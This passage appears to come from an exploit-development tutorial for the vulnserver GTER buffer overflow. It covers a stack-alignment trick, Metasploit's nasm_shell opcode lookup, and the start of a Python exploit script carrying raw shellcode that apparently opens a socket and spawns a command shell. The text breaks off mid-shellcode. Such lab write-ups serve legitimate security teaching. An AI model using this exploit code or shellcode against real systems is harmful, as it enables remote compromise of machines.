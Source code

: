 </div>

We can see that the `ESP` register is only 24 bytes below the end of our
custom shellcode. That means that with every `PUSH` performed on our
custom shellcode, that pointer will get closer to it and start
**overwriting** it. That’s not good news.

This graph illustrates the issue:

<div class="imgblock">

![ESP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331147/blog/vulnserver-gter-no-egghunter/stackgrowth_wqde3m.webp)

</div>

As the execution flows towards a higher memory address, the stack grows
backward and will eventually overwrite our shellcode.

However, if you look at the image again, you can see that the `EAX`
register points to the `GTER /.:/` string, which is above our shellcode.

All that’s left to do is align the stack to point to that location, and
it’s done easily with two instructions:

**Align stack.**

``` x86asm
push eax
pop esp
```

The first instruction will push the current value of `EAX` to the stack,
and the second will pop back that value to the `ESP` register, moving
the stack pointer above our shellcode, protecting it from being
overwritten.

We can use `nasm_shell.rb` from Metasploit to get the opcodes of those
instructions:

**nasm\_shell.**

``` console
$ cd /opt/metasploit-framework/embedded/framework/tools/exploit
$ ./nasm_shell.rb
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
```

Ok, now we can add those instructions to our exploit and see what
happens:

**exploit-socketreuse.py.**

``` python
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

CUSTOM_SHELL = (
    b'\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43' +
    b'\x53\xbb\x6a\x8b\xab\x71\xff\xd3\x96\xbb\x15\xfe\x55' +
    b'\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c\x31' +
    b'\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb' +
    b'\x07\x4a\xab\x71\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb' +
    b'\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52\x31\xc0' +
    b'\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52' +
    b'\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52' +
    b'\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53' +
```
